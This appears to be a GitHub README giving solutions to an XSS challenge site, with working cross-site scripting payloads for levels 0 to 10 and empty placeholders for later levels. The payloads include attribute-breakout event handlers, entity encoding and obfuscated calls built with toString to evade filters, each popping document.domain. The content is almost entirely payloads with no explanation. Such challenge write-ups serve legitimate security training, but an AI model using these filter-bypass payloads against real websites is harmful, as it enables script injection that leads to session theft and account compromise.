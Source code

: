 # Solutions of XSS Challenges of http://sudo.co.il/xss/
---
<p align="center">
  <img src="sudo.co.il.PNG">
</p>

---
**Our mission to popup window with document.domain (sudo.co.il) *without user interaction* **
---
- Level 0
```javascript
<script>alert(document.domain)</script>
```

- Level 1
```javascript
"><script>alert(document.domain)</script>
```

- Level 2
```javascript
" autofocus onfocus="alert(document.domain)
```

- Level 3
```javascript
"autofocus/onfocus="alert(document.domain)
```

- Level 4
```javascript
"autofocus/onfocus="confirm&#40;document.domain&#41;
```

- Level 5.1
```javascript
'-alert(document.domain)-'
```

- Level 5.2
```javascript
\'-alert(document.domain);<!--
```

- Level 6
```javascript
\'-alert(document.domain);//
```

- Level 7
```javascript
" autofocus="" onfocus="alert(document.domain)
```

- Level 8
```javascript
"};this[8680439..toString(30)](1);//
```

- Level 8.1
```javascript
"};this[8680439..toString(30)](1);{"
```

- Level 9
```javascript
'};this[8680439..toString(30)](1);{'
```

- Level 10
```javascript
';this[8680439..toString(30)](1);'
```
<!--
- Level 11
```javascript

```

- Level 12
```javascript

```

- Level 13
```javascript

```

- Level 14
```javascript

```

- Level 15
```javascript

```

- Level 16
```javascript

```

- Level 17
```javascript

```

- Level 18
```javascript

```

- Level 19
```javascript

```
-->
